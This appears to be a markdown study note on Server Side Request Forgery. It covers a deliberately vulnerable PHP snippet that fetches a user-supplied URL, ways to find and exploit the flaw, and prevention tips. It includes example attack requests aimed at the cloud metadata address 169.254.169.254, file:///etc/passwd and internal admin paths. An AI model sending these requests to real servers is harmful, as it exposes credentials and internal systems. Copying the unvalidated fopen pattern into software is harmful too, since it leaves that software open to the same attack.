


# Server Side Request Forgery (SSRF)

## SSRF Vulnerability



- SSRF stands for Server Side Request Forgery. It is a type of web application vulnerability that allows an attacker to make unauthorized requests from a vulnerable server to other internal or external servers.


- result in unauthorized actions or access to data within the organization either in the vulnerable application itself or on other back-end systems that the application can communicate with.

## OWASP Top 10 vulnerability 



## Example Vulnerable Code

```php
<?php

/**
* Check if the 'url' GET variable is set
* Example - http://localhost/?url=http://testphp.vulnweb.com/images/logo.gif
*/
if (isset($_GET['url'])){
$url = $_GET['url'];

/**
* Send a request vulnerable to SSRF since
* no validation is being done on $url
* before sending the request
*/
$image = fopen($url, 'rb');

/**
* Send the correct response headers
*/
header("Content-Type: image/png");

/**
* Dump the contents of the image
*/
fpassthru($image);}
```
[https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/)

- In the above example, the attacker has full control of the url parameter. They can make arbitrary GET requests to any website on the Internet and to resources on the server (localhost).

# Type of `SSRF`

- Regular SSRF (In Band)
- Blind SSRF (Out-of-Band)

# How to find `SSRF`

## Common parameter for `SSRF`


##  Find full URL is used in a parameter in the address bar


## Find path of the URL


[Reference: https://tryhackme.com/room/ssrfqi](https://tryhackme.com/room/ssrfqi)


## Impact of `SSRF`

- Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network

- Sensitive Data Exposuer

- Cross-Site Port Attack (XSPA)

- Denail of Service (DoS)
- Remote Code Execution


## Exploitation

- Determin if a port number can be specified
- Internet network scan
- Attempt to connect to loopback address

## Example Attack Code

```php
GET /?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: example.com
```
- Attackers can also use SSRF to make requests to `other internal resources` that the web server has access to, which are not publicly available. For example, they can access cloud service instance metadata like `AWS/Amazon EC2 and OpenStack`.

```php
GET /?url=file:///etc/passwd HTTP/1.1
Host: example.com
```

```php
GET /?url=http://localhost/admin HTTP/1.1
Host: example.com
```
```php
GET /?url=http://192.168.1.10/robots.txt HTTP/1.1
Host: example.com
```

- Some applications may enable attackers to use more exotic URL schemas

- the attacker can use the `file://` URL schema to make requests to any host on any port and send custom data.

## How to prevent `SSRF`

- Application Layer Defense
	- Sanitize and validate all input data
	- Enforce the url schema with positive allow list
	- Disable HTTP Redirection
- Network Layer Defend
	- Separate networks to reduce impact
	